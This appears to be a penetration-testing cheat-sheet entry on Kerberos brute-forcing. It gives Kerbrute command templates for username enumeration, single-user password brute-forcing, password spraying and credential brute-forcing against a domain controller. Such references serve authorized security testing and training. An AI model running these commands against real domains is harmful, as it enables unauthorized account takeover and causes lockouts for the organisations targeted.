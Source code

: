# Kerberos Bruteforcing

## Kerbrute

Kerberos enumeration can be performed by using Kerbrute. This tool can be downloaded [here](https://github.com/ropnop/kerbrute/releases).

```
./kerbrute userenum --dc <DC> -d <domain> <userlist file>
./kerbrute bruteuser --dc <DC> -d <domain> <passwords file> <username>
./kerbrute passwordspray --dc <DC> -d <domain> <userlist file> <password>
./kerbrute bruteforce --dc <DC> -d <domain> <credentials file> #credentials are stored as user:pass
```

